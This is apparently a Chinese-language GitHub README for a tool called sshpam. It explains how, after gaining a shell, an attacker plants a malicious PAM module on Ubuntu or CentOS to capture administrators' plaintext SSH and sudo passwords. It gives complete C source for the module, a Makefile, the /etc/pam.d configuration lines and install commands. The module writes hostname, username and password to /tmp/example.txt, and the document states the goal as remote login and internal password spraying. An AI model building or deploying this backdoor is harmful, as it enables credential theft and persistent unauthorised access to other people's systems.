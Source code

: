 ## PAM记录ssh或sudo明文密码

### 利用需求

当我们获取到目标shell后，无法爆破shadow，或信息搜集无法获取到密码

但又想要获取ssh密码进行远程登录或者进行内网密码喷洒，或其他密码需求

可以利用这个方法获目标系统管理员登录的明文密码

### 详情

Ubuntu 下，通过对/etc/pam.d 文件夹下的 sshd 和 sudo 的 PAM 使用配置的查看，可以发现他们 都对 common-auth 配置进行了引用

因此我们在/etc/pam.d/common-auth 配置文件中添加以下 配置（ubuntu），而在 Centos 下则各自在/etc/pam.d/sshd 和/etc/pam.d/sudo 中添加如下配置:

```
auth optional example.so

account optional example.so
```

创建example.c文件

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <security/pam_appl.h> 
#include <security/pam_modules.h> 
#include <security/pam_ext.h> 
#include <unistd.h>

#define STOREPATH "/tmp/example.txt"

PAM_EXTERN int pam_sm_setcred( pam_handle_t *pamh, int flags, int argc, const char **argv ) {
    return PAM_SUCCESS; 
    }
PAM_EXTERN int pam_sm_acct_mgmt(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    return PAM_SUCCESS; 
    }
PAM_EXTERN int pam_sm_authenticate( pam_handle_t *pamh, int flags,int argc, const char **argv ) {
    int retval;
    const char* username;
    const char* password; 
    char hostname[128];
    retval = pam_get_user(pamh, &username, "Username: "); 
    if (retval != PAM_SUCCESS) {
        return retval;
        }
    retval = pam_get_authtok(pamh,PAM_AUTHTOK,&password,NULL); if (retval != PAM_SUCCESS) {
        return retval;
        }
    gethostname(hostname, sizeof hostname);
    FILE *fp = NULL;
    fp = fopen(STOREPATH, "a+");
    fprintf(fp, "%s:%s:%s\n",hostname,username,password); 
    fclose(fp);

    return PAM_SUCCESS; 
}
```

创建Makefile文件

```
CFLAGS += -Werror -Wall
example.so: example.c
	gcc $(CFLAGS) -fPIC -shared -Xlinker -x -o $@ $<
```

终端执行make

![image-20220808113550564](./img/make.png)

Ubuntu将生成的example.so文件复制到/lib/security;centos将文件放入/lib64/security目录下，没有该目录的话就创建一个

最终的明文密码放在/tmp/example.txt文件中

![image-20220808113550564](./img/req.png)

### 使用方法

```
git clone https://github.com/yaunsky/sshpam
cd sshpam
make
cp example.so /lib/security;或cp example.so /lib64/security
```

### 报错解决

make时报错

![image-20220808113550564](./img/error.png)

需下载 libpam0g-dev

```
apt-get install libpam0g-dev
```



